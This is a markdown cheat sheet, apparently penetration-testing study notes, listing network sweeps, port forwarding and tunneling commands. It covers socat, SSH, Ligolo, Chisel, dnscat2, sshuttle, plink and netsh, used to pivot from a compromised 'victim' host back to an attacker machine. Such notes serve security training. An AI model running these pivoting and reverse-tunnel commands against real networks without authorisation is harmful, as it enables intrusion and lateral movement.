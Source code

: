 # 🚢 Port Redirection and Tunneling

## Ping sweep

```shell
# linux
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

# windows cmd
for /L %i in (1,1,254) do @ping -n 1 -w 100 192.168.1.%i | find "Reply"
# windows ps
1..254 | % {"172.16.6.$($_): $(Test-Connection -count 1 -comp 172.16.6.$($_) -quiet)"}
```

## Port redirection

### Socat

```shell
socat TCP-LISTEN:<local_port>,fork TCP:<ip>:<port>
```

## Port Forwarding

### SSH Local port forwarding

```shell
# forwards local machine port 8080 to a remote machine's port 80
ssh -L 8080:remote_host:80 user@ssh_server
```

### SSH Remote port forwarding

```shell
# forwards a remote machine's port 80 to the local machine's port 9090
ssh -R 127.0.0.1:9090:target:80 user@kali_machine
```

## Tunneling

### Ligolo

> https://github.com/nicocha30/ligolo-ng/releases

```shell
# create ligolo interface
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

# start the proxy on attacker machine
./li-proxy -selfcert -laddr 0.0.0.0:443

# upload the agent to the target machine and start it
./li-agent -connect <attacker_ip>:443 -ignore-cert
agent.exe -connect <attacker_ip>:443 -ignore-cert

# the connection will be displayed in the proxy
session # choose the session
ifconfig # show subnets of the agent
# add the subnet to the routing table
sudo ip route add <subnet> dev ligolo
# back in ligolo, start it
start
```

### Chisel

```shell
# create server 
chisel server --port 8080 --reverse --socks5

# create client on remote machine
chisel client <local_host>:8080 R:socks

# add the port asigned by chisel to /etc/proxychains.conf
# use proxychains to interact with the internal network 
sudo proxychains <command>

# create a client and add an extra port forwarding (useful to access a web page from browser)
./chisel client <local_host>:8080 R:socks R:4545:172.16.80.240:80
```

### SSH Dynamic port forwarding

```shell
# creates a dynamic tunnel between local host and target
ssh -D 9050 user@10.4.213.215

# add port to /etc/proxychains4.conf
socks5 127.0.0.1 9050

# use proxychains to interact with the internal network 
sudo proxychains <command>
```

### DNS tunneling

```shell
dnscat2-server feline.corp

# from the victim machine
dnscat feline.corp

# from the server
windows -i <id>
? for help
```

### Sshuttle

```shell
# creates a VPN-like tunnel between networks
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```

## Windows Tools

### ssh.exe

```shell
# creates a dynamic reverse tunnel between current host and attack host
ssh -N -R 9998 kali@192.168.45.171

# configure proxychains in /etc/proxychains4.conf
socks5 127.0.0.1 9998

# using proxychains to interact with 
sudo proxychains <command> <ip>
```

### Plink

```shell
# creates an SSH tunnel from a local port to a remote service
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```

### Netsh

```shell
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215

# show active interfaces
netsh interface portproxy show all
```

